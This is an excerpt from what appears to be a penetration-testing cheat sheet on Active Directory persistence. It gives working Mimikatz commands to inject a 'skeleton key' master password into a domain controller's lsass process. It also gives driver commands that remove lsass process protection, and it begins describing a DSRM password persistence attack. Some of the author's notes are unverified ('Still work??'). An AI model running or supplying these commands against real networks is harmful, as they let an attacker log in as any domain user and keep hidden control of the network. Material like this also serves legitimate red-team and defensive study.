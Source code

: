 **List tasks**\
****schtasks /S hostname.dom.local

## 🦴Skeleton Key

### Description

* Skeleton KEy is a persistance technique whewre it is possible to patch a Domain Controllers lsass process, that it allows access ans any user with a single password.
* The regular Password and the new password will work
* Malware named "Skeleton Key" used it
* Not persistent after reboot/lsass process restart
* You can access other machines, which authenticate to this DC
* You can not patch lsass twice, reboot is required

### Requirements

* Needs DA rights

### Tools

**Inject a skeleton key, password will be mimikatz - DA rights required**\
Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName dc-hostname.dom.local

Now you can login e.g. with Enter-PSSession

❓Debug really needed?

{% hint style="info" %}
If lsass runs as protected process/protected process light, skeleton key can still be used. We need to use the mimikatz driver (mimidriv.sys) on the disk of the target DC:

mimikatz#privilege::debug\
mimikatz# !+\
mimikatz# !processprotect /process:lsass.exe /remove\
mimikatz# misc::skeleton\
mimikatz# !-

Noisy in logs - Service Installation for a kernel mode driver will be displayed

❓(Still work??) => This will install kernel mode driver
{% endhint %}



## 🔤Directory Service Restore Mode (DSRM) Attack

### Description

* Directory Service Restore Mode is used, when the DC is booted into "safe mode"&#x20;
* The local Administrator on every DC is called "Administrator" whose password is the DSRM PW - it is not the RID 500 User
* DSRM Password (SafeModePassword) is required when a server is promoted to Domain Controller and is rarely changed
* After altering the configuration on the DC, it is possible to pass the NTLM hash of this user to access the DC
* Persistence: Very long! DSRM Password is set when DC is promoted, so very long.

